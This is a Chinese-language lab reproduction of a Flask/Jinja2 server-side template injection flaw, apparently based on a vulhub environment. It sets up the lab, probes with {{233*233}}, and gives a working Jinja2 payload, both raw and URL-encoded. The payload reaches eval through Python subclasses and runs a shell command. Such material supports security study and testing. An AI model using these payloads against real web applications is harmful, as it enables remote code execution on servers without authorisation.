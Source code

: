 # Flask / jinja2 SSTI 服务端模版注入攻击

## 一、漏洞简介

SSTI即服务端模版注入攻击。由于程序员代码编写不当，导致用户输入可以修改服务端模版的执行逻辑，从而造成XSS,任意文件读取，代码执行等一系列问题。

## 二、漏洞影响

## 三、复现过程

编译及运行测试环境：

```shell
docker-compose build
docker-compose up -d
```

访问 http://www.0-sec.org/?name={{233*233}} ，得到54289，说明SSTI漏洞存在。

获取eval函数并执行任意python代码的POC：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

访问

```html
http://www.0-sec.org:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

执行结果：

![image](images/img1.png)

## 参考链接

https://drops.org.cn/Python/flask-jinja2-ssti.html#directory072591889128396616

https://vulhub.org/#/environments/flask/ssti/
